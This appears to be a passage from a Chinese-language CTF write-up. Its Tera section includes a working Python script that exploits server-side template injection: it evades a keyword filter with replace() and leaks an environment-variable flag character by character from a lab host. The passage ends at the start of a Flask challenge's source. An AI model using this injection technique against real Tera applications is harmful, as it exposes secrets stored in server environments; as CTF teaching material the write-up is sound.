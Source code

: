 ```javascript
      return;
    }
    console.log(response);
});
```

## Tera

Tera ssti

[https://keats.github.io/tera/docs/](https://keats.github.io/tera/docs/)

Flag 猜测在环境变量里面

通过 get_env + if starting_with / ending_with leak flag

```python
import requests

dicts = '0123456789abcdef-'
# flag = '{3c8ce067-4df7-66b2-843a-04c6959'
flag = '-04c695904159}'

i = 1

while True:
    for s in dicts:
        print('testing', s)
        url = 'http://172.10.0.3:8081/'
        # data = r'{% set my_var = get_env(name="flac"|replace(from="c", to="g")) %}{% if my_var is starting_with("AAAg' + flag + s + '"|replace(from="AAA", to="fla")) %}true{% else %}false{% endif %}'
        data = r'{% set my_var = get_env(name="flac"|replace(from="c", to="g")) %}{% if my_var is ending_with("' + s + flag + '") %}true{% else %}false{% endif %}'
        # print(data)
        res = requests.post(url, data=data)
        if 'forbidden' in res.text:
            print('forbidden')
            exit()
        if 'true' in res.text:
            # flag += s
            flag = s + flag
            print('found!!!', flag)
            break
    i += 1
```

## Escape

/source

```python
from sqlite3 import *

from random import choice
from hashlib import sha512

from flask import Flask, request, Response

app = Flask(__name__)

salt = b'****************'

class PassHash(str):
    def __str__(self):
```